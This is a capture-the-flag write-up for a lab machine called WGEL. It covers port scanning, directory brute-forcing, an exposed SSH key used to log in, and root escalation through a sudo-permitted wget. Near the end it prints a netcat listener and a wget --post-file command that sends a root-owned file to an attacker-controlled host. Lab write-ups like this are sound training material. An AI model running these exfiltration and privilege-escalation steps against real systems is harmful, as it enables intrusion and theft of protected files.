









Room: WGEL CTF
I launched an Nmap scan to check for open ports and services running on the target. This helps form the attack surface. In this case, ports 22 (SSH) and 80 (HTTP) were discovered.
I browsed to the target's IP in a web browser and saw the default Apache2 Debian page. This usually means there's no custom web app at the root, but it's confirmation the web server is up.
From browsing around or inspecting links/code, I found the /sitemap path, which can contain links or files not meant to be directly accessible. This is a good place to dig further.
I ran Gobuster to brute-force directories and files under /sitemap. This revealed additional hidden resources and confirmed that directory indexing was possible on the server.
 While viewing page source, I found a comment that hinted at incomplete development: "Jessie don't forget to update the website." Comments like these may lead to usernames or dev clues.
While exploring the sitemap or directories revealed by Gobuster, I found a private SSH key left exposed. This is a critical misconfiguration as it allows remote access if the user is known.
With the private key and known user (from the comment), I attempted an SSH connection. It succeeded, giving me shell access as user Jessie — the first step to deeper enumeration.
Running sudo -l listed that Jessie could run wget as root without a password. This is an opportunity for privilege escalation by abusing wget functionality.
From the Jessie user's home directory, I retrieved the user flag — usually stored in a file like user_flag.txt. This confirmed foothold on the box.
I tried GTFOBins’ reverse shell payload for wget but it didn’t work. Instead, I used --post-file to send the root flag file to my own listener via HTTP — a neat manual exfiltration trick.
# Attacker:
nc -lvnp 80
# Victim:
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://YOUR-IPOnce I received the posted file on my netcat listener, I confirmed it contained the root flag. Game over — root owned!
This box involved classic web enumeration, a dev leak, and exploiting a badly configured sudo binary. I gained foothold via SSH key and escalated to root using a smart wget trick.